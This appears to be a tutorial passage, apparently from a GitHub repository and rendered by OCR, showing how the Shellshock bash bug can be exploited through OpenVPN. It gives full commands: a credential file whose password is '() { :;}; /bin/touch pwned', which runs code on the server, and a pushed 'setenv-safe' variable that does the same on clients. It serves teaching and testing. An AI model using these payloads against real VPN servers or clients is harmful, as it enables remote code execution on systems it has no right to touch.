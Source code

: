 To open the door to the vulnerability, the server must pass
the credentials using environment variables.

OpenVPN will reject this by default so we need to set
the highest security level with ``--script-security 3`` to allow this.

```shell
$ openvpn --config vpn-srv.conf --auth-user-pass-verify login.sh via-env --mode server --script-security 3 >/dev/null &
<...>

```

From the client side, the magic runes need to be in the credential file,
in the place of the password:

```shell
$ openvpn --config vpn-cli.conf --auth-user-pass evil-cred --pull >/dev/null   # byexample: +stop-on-silence +timeout=5
<...>

$ cat evil-cred
foo
() { :;}; /bin/touch pwned

```



And *presto*, the client has remote execution in the server.

But, only in the password.... Why?

The runes need to be in the password, because it is not *remapped*.

OpenVPN remaps the values of the env variables allowing a very reduced
set of symbols; the password is not affected, thanks God!

It could be in the username too as starting OpenVPN 2.0.1 it is not
remapped any more when it is passed to
``OPENVPN_PLUGIN_AUTH_USER_PASS_VERIFY`` plugin.

If this is vulnerable or not is another story.

### Push and Pull

Now the roles are inverted here.

In this case the server will set up a trap to get remote execution
on the client side.

For this, it pushes a environment variable to the client with the
magic runes:

```shell
$ openvpn --config vpn-srv.conf --push 'setenv-safe Z "() { :;}; /bin/touch pwned"' &
<...>

```
